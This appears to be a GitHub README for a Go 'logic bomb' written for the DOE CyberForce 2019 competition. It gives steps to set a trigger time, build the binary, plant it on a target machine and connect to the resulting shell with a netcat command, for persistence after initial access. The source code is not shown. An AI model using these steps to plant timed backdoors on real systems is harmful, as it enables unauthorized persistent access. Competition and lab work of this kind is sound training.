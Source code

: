 # logicbomb-reverse-shell
Description:

This is a GO-based logic-bomb script written by me for the DOE CyberForce competition 2019 to spawn a reverse shell by opening random network ports.

Usage:

1. Change the epoch timestamp in the script. Go to www.epochconverter.com and input the CORRECT execution time in your preferred local time/GMT and replace the epoch stamp by your newly created time----Line-->'if timeNow > newtime'. You can also slice up and change the portNos in this script differently and accoding to your desired usage.
2. Shoot up the terminal and 'go build logicbomb.go'
3. Place the created binary file into your desired target location path of windows/Linux.
In Linux,
4. Open up another terminal and "nc -l 'target_ip' 7864/7777/7783/8348/8677/8999". This will spawn a user shell and you are in!
Check whoami, pwd, ls, ifconfig.

Note:
Initial Machine Access Required: yes

This shell should be used to maintain foothold/persistence or for post-exploitation once an attacker gains initial entry.

To Do:

Work more on a user based priviledge esclation technique.

If you have any questions, please email me
shail.patel@nrel.gov

